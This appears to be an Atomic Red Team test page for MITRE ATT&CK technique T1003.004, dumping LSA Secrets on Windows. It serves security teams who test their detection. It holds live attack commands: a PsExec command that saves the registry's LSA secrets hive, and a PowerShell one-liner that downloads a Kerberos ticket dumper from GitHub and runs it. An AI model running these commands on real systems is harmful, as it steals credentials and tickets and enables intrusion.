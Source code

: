 # T1003.004 - OS Credential Dumping: LSA Secrets
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/004)
<blockquote>

Adversaries with SYSTEM access to a host may attempt to access Local Security Authority (LSA) secrets, which can contain a variety of different credential materials, such as credentials for service accounts.(Citation: Passcape LSA Secrets)(Citation: Microsoft AD Admin Tier Model)(Citation: Tilbury Windows Credentials) LSA secrets are stored in the registry at <code>HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets</code>. LSA secrets can also be dumped from memory.(Citation: ired Dumping LSA Secrets)

[Reg](https://attack.mitre.org/software/S0075) can be used to extract from the Registry. [Mimikatz](https://attack.mitre.org/software/S0002) can be used to extract secrets from memory.(Citation: ired Dumping LSA Secrets)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Dumping LSA Secrets](#atomic-test-1---dumping-lsa-secrets)

- [Atomic Test #2 - Dump Kerberos Tickets from LSA using dumper.ps1](#atomic-test-2---dump-kerberos-tickets-from-lsa-using-dumperps1)


<br/>

## Atomic Test #1 - Dumping LSA Secrets
Dump secrets key from Windows registry
When successful, the dumped file will be written to $env:Temp\secrets.
Attackers may use the secrets key to assist with extracting passwords and enumerating other sensitive system information.
https://pentestlab.blog/2018/04/04/dumping-clear-text-credentials/#:~:text=LSA%20Secrets%20is%20a%20registry,host%2C%20local%20security%20policy%20etc.

**Supported Platforms:** Windows


**auto_generated_guid:** 55295ab0-a703-433b-9ca4-ae13807de12f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| psexec_exe | Path to PsExec executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1003.004&#92;bin&#92;PsExec.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{psexec_exe}" -accepteula -s reg save HKLM\security\policy\secrets %temp%\secrets /y
```

#### Cleanup Commands:
```cmd
del %temp%\secrets >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: PsExec from Sysinternals must exist on disk at specified location (#{psexec_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{psexec_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PSTools.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\PSTools.zip" "PathToAtomicsFolder\..\ExternalPayloads\PSTools" -Force
New-Item -ItemType Directory (Split-Path "#{psexec_exe}") -Force | Out-Null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\PSTools\PsExec.exe" "#{psexec_exe}" -Force
```




<br/>
<br/>

## Atomic Test #2 - Dump Kerberos Tickets from LSA using dumper.ps1
This tool allows you to dump Kerberos tickets from the LSA cache. Implemented via Add-Type.
If the tool is run as a privileged user, it will automatically obtain NT AUTHORITY\SYSTEM privileges and then dump all tickets. If the tool is run as a non-privileged user, it will only dump tickets from the current logon session.
Ref: https://github.com/MzHmO/PowershellKerberos/
Author of dumper.ps1: Michael Zhmaylo (@MzHmO)

**Supported Platforms:** Windows


**auto_generated_guid:** 2dfa3bff-9a27-46db-ab75-7faefdaca732






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/MzHmO/PowershellKerberos/beed52acda37fc531ef0cb4df3fc2eb63a74bbb8/dumper.ps1')
```






<br/>
